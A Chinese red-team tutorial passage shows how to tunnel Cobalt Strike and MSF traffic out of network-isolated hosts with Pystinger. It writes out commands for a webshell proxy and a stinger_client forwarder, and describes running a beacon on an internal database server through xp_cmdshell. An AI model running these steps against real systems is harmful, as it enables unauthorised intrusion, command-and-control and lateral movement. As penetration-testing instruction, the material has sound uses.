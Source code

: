   

webshell只负责流量转发，大部分建立连接及处理数据的工作由stinger_server完成，stinger_client则用于接收转发过来的流量数据以及与CS/MSF的listener建立TCP连接等。

  

大致原理如下图，更为详细的原理分析可阅读“奇安信安全服务”公众号中的“[红队攻防实践：不出网主机搭建内网隧道新思路](http://mp.weixin.qq.com/s?__biz=MzI4MzA0ODUwNw==&mid=2247484958&idx=1&sn=a6fcfa2f4b7c5e1d0b3d3a368b4c92ef&chksm=eb91e94adce6605cbd9f2716d69d11b805448edb215ecff160003ea4b87f5749862c6db58491&scene=21#wechat_redirect)”一文进行学习了解。

![](https://gitee.com/fuli009/images/raw/master/public/20210826123224.png)

  

 **0x03  Pystinger上线不出网主机**

我们先将Pystinger项目的服务端stinger_server.exe、proxy.aspx通过中国菜刀上传至目标磁盘可读写目录中，访问proxy.aspx返回`UTF-8`表示正常，接着执行以下命令启动服务端。  

  * 

    
    
    start C:\inetpub\wwwroot\stinger_server.exe 0.0.0.0

![](https://gitee.com/fuli009/images/raw/master/public/20210826123225.png)  

  

 **注：** 作者提示不要直接运行D:/XXX/stinger_server.exe，因为这样可能会导致TCP断连。

  

将客户端stinger_client上传至Kali攻击机的tmp临时目录，然后再执行以下命令将Socks4的代理流量转发到我们Kali攻击机60000端口上，只要把-
w参数替换为自己上传的代理脚本地址即可。

  *   * 

    
    
    root@kali:/tmp# chmod 777 stinger_clientroot@kali:/tmp# ./stinger_client -w http://192.168.56.102/proxy.aspx -l 127.0.0.1 -p 60000

![]()  

 **场景1：单主机上线**

已控主机为单主机，不出外网且仅允许访问目标Web的80端口。如遇这种场景时可在执行完以上操作后在CobaltStrike创建一个Listener，HTTP
Hosts填`127.0.0.1`，HTTP Port填`60020`。

![](https://gitee.com/fuli009/images/raw/master/public/20210826123226.png)  

 **场景2：多主机上线**

已控主机为内网其中一台主机，双网卡（192.168.56.X为出网段，192.168.186.X为不出网段），在对不出网段中的其他内网主机进行横向移动上线时可在执行完以上操作后在CobaltStrike创建一个Listener，HTTP
Hosts填`192.168.186.3`，HTTP Port填`60020`。

![](https://gitee.com/fuli009/images/raw/master/public/20210826123227.png)

  

配置好监听后生成一个可执行马儿，将该文件放至192.168.186.3的Web服务器中供192.168.186.4断网数据库服务器下载，再利用xp_cmdshell组件执行`beacon.exe`后即可成功上线，Pystinger客户端那边也收到了相关连接数据。

